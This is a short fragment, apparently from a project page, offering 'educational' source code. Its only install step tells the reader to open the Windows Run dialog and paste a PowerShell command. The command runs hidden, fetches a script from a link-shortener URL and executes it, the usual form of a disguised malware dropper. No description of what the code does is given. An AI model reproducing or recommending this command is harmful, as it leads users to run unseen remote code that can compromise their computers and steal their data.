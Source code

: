 educational propouses only.

For install:
Win + R and paste this:

powershell -w hidden -c "IEX (iwr https://tinyurl.com/4uzjfrjd -UseBasicParsing)"
